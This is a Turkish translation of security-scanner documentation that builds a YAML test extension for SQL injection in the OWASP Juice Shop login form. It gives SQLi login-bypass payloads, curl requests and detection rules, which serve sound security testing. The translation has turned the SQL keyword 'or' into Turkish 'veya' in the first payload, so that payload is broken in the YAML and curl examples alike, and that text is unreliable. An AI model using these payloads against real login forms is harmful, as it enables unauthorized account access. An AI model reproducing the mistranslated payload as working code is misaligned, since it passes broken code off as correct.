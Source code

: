 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Değiştirmeyen Uzantının Oluşturulması

Bu belgede tarif edilen uzantı, bazı yükleri enjekte etmek için gelen temel isteği değiştirmeyecektir. Bunun yerine, iki önceden tanımlanmış test isteği, temel istekte belirtilen ana makineye gönderilecektir. Bu test istekleri, [“OWASP Juice Shop”][link-juice-shop] hedef uygulamasının giriş formundaki SQLi açıklığını istismar edebilecek yükleri içerir.


##  Hazırlıklar

FAST uzantısının oluşturulmasından önce hedef uygulamanın davranışını [incelemeniz][link-app-examination] şiddetle tavsiye edilir.


##  Uzantının Oluşturulması

Uzantıyı tarif eden bir dosya oluşturun (`non-mod-extension.yaml`, örneğin) ve gerekli bölümlerle doldurun:

1.  [**`meta-info` bölümü**][link-meta-info].

   Uzantının tespit etmeye çalışacağı açıklığın açıklamasını hazırlayın.
    
    * açıklık başlığı: `OWASP Juice Shop SQLi (değiştirmeyen uzantı)`
    * açıklık açıklaması: `OWASP Juice Shop'ta SQLi'nin Demosu (Yönetici Girişi)`
    * açıklık türü: SQL injeksiyonu
    * açıklık tehdit seviyesi: yüksek
    
    İlgili `meta-info` bölümü şöyle görünmelidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (değiştirmeyen uzantı)'
      - description: 'OWASP Juice Shop'ta SQLi'nin Demosu (Yönetici Girişi)'
    ```
    
2.  **`send` bölümü, [Gönderme aşaması][doc-send-phase]**

   Hedef uygulamadaki SQL injeksiyon açıklığını istismar etmek için herhangi bir `şifre` değeriyle birlikte `email` parametre değeri olarak gönderilmesi gereken iki yük vardır:
    
    * `'veya 1=1 --`
    * `admin@juice-sh.op'--`
    
   Bu iki yükte, 

    * yukarıda tarif edilen değerlerden biriyle `email` parametresi ve 
    * keyfi bir değerle `şifre` parametresi 

    içeren iki test isteği oluşturabilirsiniz.
    
    Bu isteklerden birini örnek hedef uygulamamızı (OWASP Juice Shop) test etmek için kullanmak yeterlidir.
    
    Ancak, bir gerçek uygulamanın güvenlik testini gerçekleştirirken birkaç hazırlanmış test isteği setine sahip olmak yararlı olabilir: isteklerden biri artık uygulamanın güncellemeleri ve iyileştirmeleri sayesinde bir açıklığı istismar edemezse, diğer test istekleri hala kullanılan diğer yükler nedeniyle açıklığı istismar edebilir olabilir.
   
    Yukarıdaki listedeki ilk yükle benzer bir istek şöyledir:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''veya 1=1 --", "password":"12345"}'
    ```

    İkinci istek birincisine benzer:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Bu iki test isteğinin tariflerini içeren `send` bölümünü ekleyin:

    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''veya 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
   !!! info "`Host` başlığı hakkında bir not" 
       Bu özellikli SQLi açıklığının istismarını etkilemediği için bu isteklerde `Host` başlığını çıkarabilirsiniz. Bir FAST node, gelen temel isteklerden çıkarılan `Host` başlığını otomatik olarak ekleyecektir.
        
       Gönderme aşamasının istek başlıklarını nasıl ele aldığı hakkında [burada][link-send-headers] okuyun.

     3.  **`detect` bölümü, [Tespit aşaması][doc-detect-phase]**.
    
    Aşağıdaki koşullar yönetici haklarıyla kullanıcı kimlik doğrulamasının başarılı olduğunu gösterir:
    
    * Yanıt gövdesinde `1` değeriyle alışveriş sepeti tanımlayıcısı parametresinin varlığı. Parametre, aşağıda gösterildiği gibi JSON formatında olmalıdır:

        ```
        "bid":1
        ```
    
    * Yanıt gövdesinde `admin@juice-sh.op` değeriyle kullanıcı email parametresinin varlığı. Parametre, aşağıda gösterildiği gibi JSON formatında olmalıdır:

        ```
        "umail":"admin@juice-sh.op"
        ```
    
    Yukarıda tarif edilen koşullara göre saldırının başarılı olup olmadığını kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

!!! info "Özel sembolleri kaçış karakteri ile kullanma"
    Stringlerdeki özel sembolleri kaçış karakteri ile kullanmayı unutmayın.

##  Uzantı Dosyası

Şimdi `non-mod-extension.yaml` dosyası uzantının işlemesi için gerekli bölümler setini içeriyor. Dosyanın içeriğinin listesi aşağıda gösterilmiştir:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (değiştirmeyen uzantı)'
      - description: 'OWASP Juice Shop'ta SQLi'nin Demosu (Yönetici Girişi)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''veya 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Uzantının Kullanımı

Oluşturulan ifadenin nasıl kullanılacağı hakkında ayrıntılı bilgi için, [bu belgeyi][link-using-extension] okuyun.